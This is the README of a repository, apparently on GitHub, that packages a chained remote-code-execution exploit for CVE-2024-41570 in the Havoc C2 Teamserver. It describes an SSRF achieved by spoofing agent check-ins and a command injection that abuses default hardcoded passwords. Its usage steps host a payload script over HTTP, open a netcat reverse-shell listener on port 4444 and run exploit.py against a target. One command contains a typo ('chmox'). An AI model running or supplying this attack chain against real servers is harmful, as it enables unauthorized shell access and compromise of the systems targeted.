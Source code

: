 # Havoc-C2-RCE
This is a Chained RCE (CVE-2024-41570) in the Havoc C2 framework.

Command injection: Havoc is vulnerable to command injection enabling an authenticated user to execute commands on the Teamserver. Affects versions 0.3 up to the latest release 0.6. Havoc's default profile contains hardcoded passwords, so a C2 operator careless enough to use the default profile on a public network can immediately be exploited.

SSRF: This vulnerability is exploited by spoofing a demon agent registration and checkins to open a TCP socket on the teamserver and read/write data from it. This allows attackers to leak origin IPs of teamservers and much more.

Chain: Abusing SSRF to deliver an authenticated command injection payload.

# How to use
![2025-01-19 20-01-34](https://github.com/user-attachments/assets/e57accee-6d1e-4633-aa32-a0ee07c42988)

```
1. Modify the IP, USER and PASSWORD in the exploit.py file.
2. Modify IP in payload.sh

-> python3 -m venv myenv && source myenv/bin/activate
-> pip3 install -r requirements.txt
-> chmox +x payload.sh
-> python3 -m http.server (On another terminal)
-> nc -lvnp 4444 (On another terminal)

# Run the exploit
(myenv) -> python3 exploit.py -t https://site.com -i 0.0.0.0 -p 12345
```

Credits to [@chebuya](https://github.com/chebuya/Havoc-C2-SSRF-poc) and [@Hyperreality](https://github.com/IncludeSecurity/c2-vulnerabilities/blob/main/havoc_auth_rce/havoc_rce.py)
